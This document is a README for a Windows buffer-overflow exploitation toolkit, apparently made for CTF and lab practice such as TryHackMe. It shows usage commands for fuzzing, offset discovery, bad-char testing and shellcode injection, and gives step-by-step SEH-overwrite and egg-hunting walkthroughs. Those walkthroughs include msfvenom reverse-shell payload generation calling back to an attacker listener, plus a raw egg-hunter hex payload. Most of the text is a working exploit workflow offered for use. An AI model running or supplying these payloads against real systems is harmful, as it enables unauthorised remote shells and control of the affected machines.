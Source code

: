 # Buffer Overflow

Scripts for exploiting buffer overflow.

* create-reverve-jmp.py - Generates a reverse jmp instruction (hex string)
* ig-buffer-overflow.py - Help functions for exploting buffer overflow vulnerabilities in a Windows remote binary.
* socket-reuse-ws2_32.recv.py - Example code for exploiting a socket reuse with winsocket dll (WS2_32.recv)

# ig-buffer-overflow.py
* Help functions for exploting buffer overflow vulnerabilities in a Windows remote binary. 
* Tested with: Vanilla Buffer Overflow, Structured Exception Handling Overwrite (SEH Overwrite), Egg Hunting.

## Usage

test - Sends simple string (AAAAA) with buffer size and buffer head for memory test
```
./ig-buffer-overflow.py -m test --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/'
```

cyclic - Sends cyclic pattern to help identify memory positions
```
./ig-buffer-overflow.py -m cyclic --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/'
```

checkoffset - Auxiliary mode for offset detection on pattern
```
./ig-buffer-overflow.py -m checkoffset --value=31704331 --length=5000
```

write - Writes hex value to buffer offset
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809
```

write - Writes hex value to buffer offset and additional content before and/or after the offset content
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809 --before=90909090 --after=9090
```

write - Writes badchars (before or after offset content) for badchar verification
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809 --after=badchar --exclude=000a
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809 --before=badchar --exclude=000a
```

write - Sends malicious shell code (hex string file) via buffer overflow
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809 --before=shellcode --shellcode=opencalc --nops=10
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809 --after=shellcode --shellcode=opencalc
```

## Parameters:
* --help|-h	: Show script usage.
* --norec|-n	: Don't wait for receive message after connect.
* --mode|-m	: Select script mode (test|cyclic|write|checkoffset).
* --rhost		: Remote host IP.
* --rport		: Remote host port.
* --buffsize	: Amount of variable bytes to send.
* --buffhead	: Static buffer string set at the beginning of the buffer.
  * Is usually the crash string. Size is considered in buffSize calc.
* --interact	: Interact with the application before sending the payload. For each message in string (separated with ';;'), sends and receives response from app.
  * Example: --interact='login;;user' --> Sends 'login', gets response, sends 'user', gets response, and finally sends the generated payload
* --offset	: Place in buffer where content can be added.
* --hexcontent	: Hex string to add at the offset position.
  * Can be considered as big endian (default) or little endian (will be reversed).
  * Use 'g' or 'l' to delimit the order. Examples:
    * 'g01020304l05060708' --> will send '0102030408070605'
    * '01020304' --> will send '01020304'
* --before|after	: Writes additional content (hex string) before and/or after the offset content.
  * If content is 'badchar', content will be a generated badchar list. Used for bad char testing.
  * If content is 'shellcode', --shellcode parameter will be expected.
  * Other content will be considered as big endian (default) or little endian (will be reversed). Same as --hexcontent.
* --exclude	: List of chars (formatted as hex string) to be excluded from badchar list.
* --shellcode	: Hex shell code file generated using msfvenom. 
  * Example: msfvenom -p windows/exec cmd=calc.exe -b '\x00' -f hex EXITFUNC=thread -o opencalc
* --nopsb|nopsa	: Amount of nops to add before and/or after the additional write content (be if badchars, shellcode or simple hexstring). Default is 0.
* --value		: Offset value.
* --length	: Cyclic pattern length.
* --flush		: Adds '\\r\\n' at the end of the payload.


## Vanilla Buffer Overflow example

[TryHackMe - Brainstorm - Write-up](https://github.com/isabellecda/writeups/tree/main/TryHackMe/Brainstorm)

## SEH Overwrite example

1. Overwrite SEH chain
```
./ig-buffer-overflow.py -m test --rhost=10.2.31.155 --rport=2050 --buffsize=4085 --buffhead='cmd2 /.../'
```

2. Identify SEH offset
```
./ig-buffer-overflow.py -m cyclic --rhost=10.2.31.155 --rport=2050 --buffsize=4085 --buffhead='cmd2 /.../'
```

3. Small jump (90EB0890) to tail content
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4085 --buffhead='cmd2 /.../' --offset=3290 --hexcontent=g90EB0890l62501301
```

4. Long jump (E9DBFCFFFF) to head content
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4085 --buffhead='cmd2 /.../' --offset=3290 --hexcontent=g90EB0890l62501301 --after=gE9DBFCFFFF --nopsa=4
```

5. Bad char testing
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=5048 --buffsize=4096 --buffhead='cmd2 /.../' --offset=3391 --hexcontent=g90EB0890l62501301 --after=gE9DBFCFFFF --nopsa=4 --before=badchar --nopsb=4 --exclude=00 -v
```

6. Exploit
```
msfvenom -p windows/shell_reverse_tcp -b "\x00" LHOST=10.2.31.1 LPORT=1313 -f hex EXITFUNC=thread -o reverse

./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4085 --buffhead='cmd2 /.../' --offset=3290 --hexcontent=g90EB0890l62501301 --after=gE9DBFCFFFF --nopsa=4 --before=shellcode --shellcode=reverse --nopsb=20 -v
```

## Egg Hunting example

1. Overwrite EIP
```
./ig-buffer-overflow.py -m test --rhost=10.2.31.155 --rport=2048 --buffsize=1000 --buffhead='cmd1 /.:/'
```

2. Identify EIP offset
```
./ig-buffer-overflow.py -m cyclic --rhost=10.2.31.155 --rport=2048 --buffsize=1000 --buffhead='cmd1 /.:/'
```

3. Identify command to write to memory
```
./ig-buffer-overflow.py -m test --rhost=10.2.31.146 --rport=2050 --buffsize=1000 --buffhead='cmd2 OVNI'
```

4. Bad char testing
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.146 --rport=2050 --buffsize=2000 --buffhead='cmd2 OVNI' --offset=1 --hexcontent=90 --after=badchar --exclude=00 --nopsa=2 -v
```

5. Write exploit with egg
```
msfvenom -p windows/shell_reverse_tcp -b "\x00" LHOST=10.2.31.1 LPORT=1313 -f hex EXITFUNC=thread -o reverse

./ig-buffer-overflow.py -m write --rhost=10.2.31.146 --rport=2050 --buffsize=2000 --buffhead='cmd2 OVNIOVNI' --offset=1 --hexcontent=90 --after=shellcode --shellcode=reverse --nopsa=20 -v
```

6. Generate egg hunter and send
```
msf-egghunter -f hex -e OVNI -v egg

./ig-buffer-overflow.py -m write --rhost=10.2.31.146 --rport=2050 --buffsize=144 --buffhead='cmd1 /.:/' --offset=48 --hexcontent=l6250130A --after=6681caff0f42526a0258cd2e3c055a74efb84f564e4989d7af75eaaf75e7ffe7 --nopsa=2 -v
```

